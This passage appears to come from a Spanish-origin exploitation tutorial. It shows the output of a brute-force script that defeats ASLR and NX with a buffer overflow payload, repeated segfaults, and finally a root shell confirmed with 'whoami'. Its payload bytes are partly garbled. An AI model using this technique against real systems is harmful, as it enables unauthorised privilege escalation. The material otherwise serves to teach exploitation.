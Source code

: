 $ ./aslr.sh  
Intento: 0  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
Intento: 1  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
.  
.  
.  
Intento: 195  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
Intento: 196  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
Intento: 197  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Illegal instruction  
Intento: 198  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
\# whoami  
root  
#  
After closing the shell program breaks because we have not bothered to place the direction of `exit()` as `ret` course for `system()`  
`# exit  
Segmentation fault  
Intento: 199  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
[...]`  
It continues the script by brute force. In fact it’s funny that after the `exit` command, it obtain a root again in less than a second  
`Intento: 746  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
Intento: 747  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
#`  
We have achieved a privilege elevation bypasseando ASLR and NX by an ROP that simple.
